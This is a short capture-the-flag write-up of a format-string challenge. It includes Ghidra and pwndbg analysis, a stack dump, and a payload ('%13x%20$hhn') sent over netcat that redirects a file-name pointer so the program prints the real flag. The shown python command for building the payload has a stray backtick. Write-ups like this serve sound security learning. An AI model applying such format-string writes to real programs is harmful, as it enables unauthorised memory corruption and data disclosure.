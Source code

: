 

This is my first challenge trying out WSL2, surprisingly easy to use!

[[format-strings]]
[[ghidra]]
[[gdb-pwndbg]]
### Reflection

This challenge took me some time to get right which was disappointing as in theory it is quite simple. The file has all protections enabled, stripped of all symbols. I spent quite a long time in Ghidra with this one, renaming all the functions before realising that it was not necessary. If I had gone through GDB first, I probably would have seen the string `./fake_flag.txt` first and  known known what to look for. Lessons for next time though.

I thought about leaking the address of the fake flag string first, though realised in doing so there was no way to then overwrite the return value to rerun the function to exploit it. I then tried to write my own string `flag.txt` to an address and then overwrite the pointer at position 20 and it was only then when I realised I could just adjust the lowest bytes directly saving a lot of work!


```
beast@laptop:~/rstcon$ nc icc.metaproblems.com 5300
Flag file found safe and sound.
Please enter your input:
a
a
MetaCTF{Yeah, this isn't the flag... It's probably named something other than fake_flag.txt}
```


The challenge intro gives an idea its a format string vuln. We can see a pointer on the stack that shows ./fake_flag.txt. (stack from first printf call. When running in GDB, `break printf` and then look at the stack)


```
pwndbg> stack 50
00:0000│ rsp 0x7fffffffdf18 —▸ 0x55555555544c ◂— mov rsp, rbx
01:0008│ rdi 0x7fffffffdf20 ◂— 0xa61616161 /* 'aaaa\n' */
02:0010│-048 0x7fffffffdf28 —▸ 0x7ffff7fa7780 (_IO_2_1_stdout_) ◂— 0xfbad2887
03:0018│-040 0x7fffffffdf30 —▸ 0x5555555560a8 ◂— 'Flag file found safe and sound.'
04:0020│-038 0x7fffffffdf38 —▸ 0x7ffff7e0cfaa (puts+346) ◂— cmp eax, -1
05:0028│ rbx 0x7fffffffdf40 ◂— 0x20ffffdf70
06:0030│-028 0x7fffffffdf48 ◂— 0x1f
07:0038│-020 0x7fffffffdf50 —▸ 0x7fffffffdf20 ◂— 0xa61616161 /* 'aaaa\n' */
08:0040│-018 0x7fffffffdf58 ◂— 0xf470a78a15674a00
09:0048│-010 0x7fffffffdf60 —▸ 0x7fffffffe0b8 —▸ 0x7fffffffe323 ◂— '/home/beast/rstcon/reader'
0a:0050│-008 0x7fffffffdf68 ◂— 0
0b:0058│ rbp 0x7fffffffdf70 —▸ 0x7fffffffdfa0 ◂— 1
0c:0060│+008 0x7fffffffdf78 —▸ 0x555555555529 ◂— mov eax, 0
0d:0068│+010 0x7fffffffdf80 —▸ 0x7fffffffe0b8 —▸ 0x7fffffffe323 ◂— '/home/beast/rstcon/reader'
0e:0070│+018 0x7fffffffdf88 ◂— 0x100000064 /* 'd' */
0f:0078│+020 0x7fffffffdf90 —▸ 0x555555558010 —▸ 0x555555556008 ◂— './fake_flag.txt'
```

`%20$p -> 0x555555558010

This we can see is in position 20 (determined from the usual fuzzing script)

```
pwndbg> x/gx 0x555555558010
0x555555558010: 0x0000555555556008
pwndbg> x/gx 0x0000555555556008
0x555555556008: 0x665f656b61662f2e
```

As position 20 points to the string and we can write to the stack, we can overwrite the lowest byte to ignore the `./fake_` to set the pointer to `flag.txt`



**Solution:** I had an odd problem that occurred when i tried to print the whole thing in one go in which the `$hhn` would not print. I'm assuming it thinks $hhn is a variable so splitting it up worked.


```
beast@laptop:~$ python3 -c "print(b'%13x%20' + b'$' + b'hhn')" > payload`
beast@laptop:~$ nc icc.metaproblems.com 5300 < payload

Flag file found safe and sound.
Please enter your input:
b'     9f6348d0'
MetaCTF{57r1ng_f0rm4tt1n9_f0r_t3h_w1n}

```

we can break the command down:

`13x` - pad the input with 13 bytes
`%20` - refers to position 20 on the stack
`$hhn` write the number of bytes written before this to the position referred above (position 20 on the stack)